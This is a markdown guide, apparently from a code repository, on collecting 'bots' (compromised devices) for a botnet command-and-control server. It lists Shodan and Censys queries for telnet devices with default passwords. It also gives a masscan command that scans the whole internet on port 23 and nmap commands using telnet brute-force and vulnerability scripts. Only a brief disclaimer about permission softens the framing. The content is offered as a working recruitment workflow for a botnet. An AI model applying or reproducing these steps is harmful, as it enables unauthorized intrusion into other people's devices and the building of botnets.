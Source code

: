 # 🤖 Bot Collection Guide for CNC Server

## 🎯 Overview
This guide covers methods to find and collect bots (compromised devices) for your CNC server. **Important**: Only use these techniques on devices you own or have explicit permission to test.

## 🔍 Target Discovery Methods

### **1. IoT Device Discovery**
```bash
# Using Shodan (Web-based IoT search)
# Search queries:
- "default password" port:23
- "telnet" "admin:admin"
- "root:" port:23
- "IoT" "telnet" "default"

# Using Censys
# Search for open telnet ports:
- port:23 AND service.telnet.banner:*
- port:23 AND service.telnet.banner:"login:"
```

### **2. Network Scanning Tools**

#### **Masscan (Fast IP scanning)**
```bash
# Install masscan
apt-get install masscan

# Scan for telnet ports
masscan -p23 0.0.0.0/0 --rate=1000 -oG telnet_scan.txt

# Scan specific ranges
masscan -p23 192.168.0.0/16 --rate=1000
```

#### **Nmap (Detailed scanning)**
```bash
# Basic telnet scan
nmap -p23 -sV --script telnet-brute 192.168.1.0/24

# Aggressive scan with scripts
nmap -p23 -A --script vuln 192.168.1.0/24

# Scan for specific services
nmap -p23 --script telnet-encryption 192.168.1.0/24
```
